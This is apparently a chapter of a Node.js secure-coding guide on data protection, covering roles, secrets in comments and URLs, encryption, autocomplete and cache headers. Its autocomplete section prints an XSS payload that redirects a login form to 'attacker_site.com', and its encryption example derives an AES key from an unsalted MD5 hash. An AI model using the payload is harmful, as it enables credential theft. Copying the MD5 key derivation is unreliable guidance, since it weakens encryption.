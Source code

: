 Data Protection
===============

Nowadays, one of the most important things in security in general is data
protection. You don't want something like:

![All your data are belong to us](files/cB52MA.jpeg)

In a nutshell, data from your web application needs to be protected, so in this
section we will take a look at the different ways to secure it.

One of the first things you should take care of, is creating and implementing the
right privileges for each user and restrict them to only the functions they
really need.

For example, consider a simple online store with the following user roles:

* _Sales user_: Permission only to view catalog
* _Marketing user_: Allowed to check statistics
* _Developer_: Allowed to modify pages and web application options

Also, in the system configuration (aka webserver), you should define the right
permissions.

The main thing is to define the right role for each user - web or system.

Role separation and access controls are further discussed in
the [Access Control][1] section.

## Remove sensitive information

Temporary and cache files which contain sensitive information should be removed
as soon as they're not needed. If you still need some of them, move them to
protected areas and/or encrypt them. This includes all authentication
verification data, even on the server-side.

Last but not least, when using encryption, make sure you are using well vetted
algorithms. More information in the [Cryptographic Practices][2] section.

### Comments

Sometimes developers leave comments like _To-do lists_ in the source-code, and
sometimes, in the worst case scenario, developers may leave credentials.

```javascript
// Secret API endpoint - /api/mytoken?callback=myToken
console.log("Just a random code")
```

In the above example, the developer has an endpoint in a comment which, if not
well protected, could be used by a malicious user.

### URL

Passing sensitive information using the HTTP GET method leaves the web
application vulnerable because:

1. data could be intercepted if not using HTTPS by MITM attacks;
2. browser history stores the user's information. If the URL has
   session IDs, pins or tokens that don't expire (or have low entropy),
   they can be stolen.

```JavaScript
const http = require('http');

var options = {
  host: 'www.mycompany.com',
  path: '/api/mytoken?api_key=000s3cr3t000'
};

callback = function(response) {
  var str = '';

  //another chunk of data has been recieved, so append it to `str`
  response.on('data', function (chunk) {
    str += chunk;
  });

  //the whole response has been recieved, so we just print it out here
  response.on('end', function () {
    console.log(str);
  });
}

http.request(options, callback).end();
```

If you web application tries to get information from a third-party website
using your ```api_key```, it could be stolen if anyone is listening within your
network. This is due to the lack of HTTPS and the parameters being passed
through GET.

Also, if your web application has links to the example site:

```
http://mycompany.com/api/mytoken?api_key=000s3cr3t000
```

It will be stored in your browser history so, again, it can be stolen.

Solutions should always use HTTPS. Furthermore, try to pass the parameters using
the POST method and, if possible, use one time only session IDs or token.

### Information is power

You should always remove application and system documentation on the production
environment. Some documents could disclose versions, or even functions that could
be used to attack your web application (e.g. Readme, Changelog, etc.).

As a developer, you should allow the user to remove sensitive information that
is no longer used. Imagine that the user has expired credit cards on
his account and wants to remove them - your web application should allow it.

All of the information that is no longer needed must be deleted from the
application.

Also important is to ensure no server-side source code can be downloaded or
accessed by a user.

#### Encryption is the key

Every highly sensitive information should be encrypted in your web application.
See the [Cryptographic Practices][2] section for more information regarding
algorithms and their usage.

Getting different permissions for accessing the code and limiting the access
for your source-code is the best approach.

Do not store passwords, connection strings (see example for how to secure database
connection strings on [Database Security][3] section) or other sensitive
information in clear text or in any non-cryptographically secure manner on the
client side.

This includes embedding in insecure formats (e.g. Adobe flash or compiled code).

A small example of `aes-256-cbc` encryption in Node.js using the
`crypto` package:


```JavaScript
'use strict';
const crypto = require('crypto');

// get password's md5 hash
let password = 'test';
let password_hash = crypto.createHash('md5').update(password, 'utf-8').digest('hex').toUpperCase();
console.log('key=', password_hash); // 098F6BCD4621D373CADE4E832627B4F6

// our data to encrypt
let data = 'Sample text to encrypt';
console.log('data=', data);

// generate random initialization vector
var iv = crypto.randomBytes(16)
console.log('iv=', iv);

// encrypt data
let cipher = crypto.createCipheriv('aes-256-cbc', password_hash, iv);
let encryptedData = cipher.update(data, 'utf8', 'hex') + cipher.final('hex');
console.log('encrypted data=', encryptedData.toUpperCase());
```

Output will be:

```
key= 098F6BCD4621D373CADE4E832627B4F6
data= Sample text to encrypt
iv= <Buffer d7 98 9a 54 a0 e6 bc 45 f3 7f bc 33 c2 0f 7d 00>
encrypted data= 83640168A86A9F2BC0BEEEDEB39756E195EF3D0758A3262F012697C3D718B039
```

## Disable what you don't need

Another simple and efficient way to mitigate attack vectors is to guarantee that
any unnecessary applications or services are disabled in your systems.

### Autocomplete

According to [Mozilla documentation][4], you can disable autocompletion in the
entire form by using:

```html
<form method="post" action="/form" autocomplete="off">
```

Or a specific form element:

```html
<input type="text" id="cc" name="cc" autocomplete="off">
```

This is especially useful for disabling autocomplete on login forms. Imagine a
case where a Cross-Site Scripting vector is present in the login page.
If the malicious user creates a payload like:

```JavaScript
window.setTimeout(function() {
  document.forms[0].action = 'http://attacker_site.com';
  document.forms[0].submit();
}
), 10000);
```

It will send the autocomplete form fields to the `attacker_site.com`.

### Cache

Cache control in pages that contain sensitive information should be disabled.

This can be achieved by setting the corresponding header flags.   
The following snippet shows how to do this in an `express` application:

```JavaScript
//Express application
[...]

app.use(function (req,res,next){
  res.header('Cache-Control', 'private, no-cache, no-store, must-revalidate')
  res.header('Pragma', 'no-cache')
  next()
});

[...]
```

The `no-cache` value tells the browser to revalidate with the server before
using any cached response. It does not tell the browser to _not cache_.

On the other hand, `no-store` value is really - _Hey stop caching!_ - and
must not store any part of the request or response.

The `Pragma` header is there to support HTTP/1.0 requests.

[1]: ./access-control/README.md
[2]: ./cryptographic-practices/README.md
[3]: ./database-security/README.md
[4]: https://developer.mozilla.org/en-US/docs/Web/Security/Securing_your_site/Turning_off_form_autocompletion
